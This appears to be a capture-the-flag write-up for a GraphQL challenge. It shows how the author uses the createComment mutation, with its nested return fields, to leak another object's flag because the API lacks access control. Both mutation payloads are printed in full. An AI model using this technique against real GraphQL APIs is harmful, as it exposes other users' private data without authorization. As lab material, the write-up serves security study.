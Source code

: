 ```yaml
---
layout: default
title: GraphQL-Mutation
---
```


Here we create user and then login.
After this, we can see the posts which are working using `GraphQL`, we send this to analyze in `InQL` burp extension, and get this:

![InQL](./images/GraphQL-Mutation_inQL.png)

As we can see, we have both `queries` and `mutations`.

First we try to achieve the flag from the nude of the owner, however, we can't get that.

![can't get nude](./images/GraphQL-Mutation_nude.png)

Then, we move to the mutation `createComment`.
```gql
mutation createComment {
    createComment(userId: 1, postId: 1, nudeId: 1, comment: "a") {
        comment
        createdAt
        id
        nude {
            createdAt
            flag
            id
            updatedAt
        }
        nudeId
        postId
        updatedAt
    }
}
```

Every `mutation` is also playing is `query`, which means it will retrieve the data after creating the comment.
In that way, we can leak the flag of `nudeId` number 1.

![comment](./images/GraphQL-Mutation_comment.png)

We didn't get it, but we are close, as the message says:
```
You're too strong, but my nude is not here
```


When trying `nudeId` number 2, we achieve the FLAG!

This is our payload:
```gql
mutation createComment {
    createComment(userId: 29, postId: 1, nudeId: 2, comment: "a") {
        comment
        createdAt
        id
        nude {
            createdAt
            flag
            id
            updatedAt
        }
        nudeId
        postId
        updatedAt
    }
}
```

![FLAG](./images/GraphQL-Mutation_FINAL.png)

**Flag:** **_`GraphQLDoesNeedAccessControl!!!!!!`_**
